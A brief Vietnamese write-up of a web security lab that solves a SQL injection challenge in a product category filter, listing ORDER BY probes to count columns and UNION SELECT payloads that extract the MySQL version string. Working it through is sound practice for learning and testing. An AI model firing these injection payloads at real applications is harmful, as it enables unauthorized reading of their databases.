 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm.
- Có thể sử dụng tấn công UNION để truy xuất kết quả từ truy vấn được tiêm vào.

# Yêu cầu:
- Hiển thị chuỗi phiên bản cơ sở dữ liệu.

# Solution:
' ORDER BY 1--

' ORDER BY 1# -> LỖI

' ORDER BY 1%23 (%23 = #)

' ORDER BY 2%23

' ORDER BY 3%23 -> LỖI

=> Có 2 vị trí cột


' UNION SELECT NULL, NULL%23

' UNION SELECT 'a', 'aa'%23

' UNION SELECT 'Version', @@version%23
